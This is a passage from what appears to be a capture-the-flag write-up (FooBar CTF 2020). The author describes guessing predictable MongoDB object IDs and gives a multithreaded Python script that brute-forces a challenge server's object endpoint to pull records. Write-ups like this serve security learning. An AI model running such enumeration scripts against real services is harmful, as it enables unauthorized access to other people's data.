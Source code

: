 The last object mentioned something about actions.txt, so I accessed that file using my browser:
<center><img src="/images/foobarctf_2020_writeup_part_i/image-22.png"></center>

After the CTF was over, the admin told me that the object ids were assigned by MongoDB and were predictable. However, I didn’t know that when I solved the challenge, so I made a script that searched for valid objects. It’s based on the idea that the first bytes of the object id are the UNIX timestamp in hex format and the other part is just an incrementing number. The final script looked like this:

{% highlight python %}
import requests
import threading
import time

a = open("dates.txt", "r").read().split("\n")

def makeReq(a, b):
	s = a + b
	url = "http://138.68.252.44:7081/objects/?id=" + s
	r = requests.get(url)
	if r.text == 'null':
		return
	print(r.url)
	print(r.text)

def process(l):
	if not l.startswith("15"):
		return
	#print(l)
	tk = "5e0cb0061c9d440000b58aa4".split("5e0cb006")[1]
	l = hex(int(l))[2:]
	a = int(tk, 16)
	for offset in range(-0, 13):
		s = l + hex(a + offset)[2:]
		#print(s)
		threading.Thread(target = makeReq, args=(l, hex(a + offset)[2:],)).start()
		#time.sleep(10)

for line in a:
	process(line)

{% endhighlight %}
